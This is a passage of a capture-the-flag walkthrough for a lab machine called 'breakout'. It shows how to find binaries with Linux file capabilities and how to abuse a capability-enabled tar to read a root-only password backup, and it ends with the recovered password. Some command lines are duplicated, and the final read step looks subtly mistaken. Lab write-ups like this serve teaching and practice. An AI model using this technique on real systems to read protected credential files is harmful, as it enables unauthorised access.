


5.1 Scan for files with capabilities
1. Start scanning the file system for files with capabilities using
getcap -r / The -r flag tells getcap to search recursively, ‘/‘ to indicate that we want to search the whole system.The output is usually filled with tens or hundreds of “Operation not supported” errors, making it hard to read. We can redirect errors to /dev/null to get a cleaner output. More info here.
[cyber@breakout ~]$getcap -r / 2>/dev/null
Output:

2. “tar” has the capacity of reading files. This means that we can read files using “tar”. We can do this by compressing the files and extracting them to read.
3. Go to “/var/backups” and list the all files.
[cyber@breakout ~]$cd /var/backups
[cyber@breakout ~]$ls -al
[cyber@breakout ~]$ls -al
Output:

As you can see above, “.old_pass.bak” file is only readable by the “root” user. Nevertheless, you have a binary that can read any file.
4. Run the following commands to read the “.old_pass.bak” file.
[cyber@breakout backups]$cd /home/cyber
[cyber@breakout ~]$./tar -cf bak.tar /var/backups/.old_pass.bak
[cyber@breakout ~]$tar -xf bak.tar
[cyber@breakout ~]$cat /var/backups/.old_pass.bak
[cyber@breakout ~]$./tar -cf bak.tar /var/backups/.old_pass.bak
[cyber@breakout ~]$tar -xf bak.tar
[cyber@breakout ~]$cat /var/backups/.old_pass.bak
Output:
“
Ts&4&YurgtRX(=~h”